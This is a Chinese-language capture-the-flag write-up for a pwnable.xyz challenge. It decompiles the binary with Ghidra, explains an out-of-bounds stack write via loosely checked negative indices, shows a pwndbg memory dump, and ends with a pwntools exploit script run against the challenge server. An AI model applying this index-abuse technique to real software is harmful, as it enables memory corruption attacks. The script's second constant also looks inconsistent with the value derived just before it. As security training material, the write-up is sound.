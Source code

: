 用ghidra查看代码
```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_a8 [8];
  undefined auStack160 [24];
  long local_88;
  long local_80;
  long local_78 [13];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  memset(local_a8,0,0x98);
  auStack160._7_8_ = 0xdeadbeef;                // B
  while( true ) {
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_88,&local_80,local_78);
    if (((iVar1 != 3) || (9 < local_78[0])) || (local_78[0] < -7)) break;
    *(long *)(auStack160 + (local_78[0] + 6) * 8) = local_80 + local_88;
    printf("Result: %ld\n",*(undefined8 *)(auStack160 + (local_78[0] + 6) * 8));
  }
  if (auStack160._7_8_ == 0xb000000b5) {         // A
    win();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

A行可翻译为：
```
*(long *)((char *) auStack160 + 15) == 0xb000000b5
```

结合B行，内存中的值为

`pwndbg> x/16bx $rbp-160+8`
0x7fffffffe3d8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0xef
0x7fffffffe3e0: 0xbe    0xad    0xde    0x00    0x00    0x00    0x00    0x00

*注：0x7fffffffe3d8: 为auStack160的开始位置*



需要修改成:
0x7fffffffe3d8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    <span style="color:red">0xb5</span>
0x7fffffffe3e0: <span style="color:red">0x00    0x00    0x00    0x0b</span>    0x00    0x00    0x00    0x00


即
```
*(long *)((char *) auStack160 + 0) == 0xb500000000000000
*(long *)((char *) auStack160 + 8) == 0xb0000000
```



脚本
```python
from pwn import *
from ctypes import *


p = remote('svc.pwnable.xyz', 30003)
# p = process('./challenge')
p.sendline(str.encode(str(c_int64(0xb500000000000000).value)) + b' 0 -6')
p.recvline()
p.sendline(str.encode(str(c_int64(0xb000000).value)) + b' 0 -5')
p.recvline()
p.sendline(b'e')
p.interactive()
```
